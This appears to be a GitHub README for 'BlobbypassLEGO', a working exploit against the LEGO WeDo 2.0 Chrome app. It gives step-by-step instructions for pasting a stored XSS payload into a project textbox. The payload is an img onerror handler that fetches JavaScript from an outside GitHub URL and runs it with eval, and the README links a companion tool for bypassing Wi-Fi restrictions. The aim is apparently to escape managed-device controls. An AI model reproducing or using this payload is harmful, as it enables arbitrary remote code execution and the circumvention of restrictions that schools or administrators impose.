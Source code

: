 # BlobbypassLEGO
## LEGO WeDo 2.0 Webview Exploit that uses BlobbypassXSS

### Setup:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Wait until it loads, then turn off your WiFi.
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
* Close LEGO WeDo 2.0 and re-enable your WiFi

### How to use (after Setup):
* Open LEGO WeDo 2.0 (with WiFi turned on)
* Click the project you made when you were setting this up
* Press the pencil in the top bar.
* Done!
  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://blobby-boi.github.io/Blobwifi/).
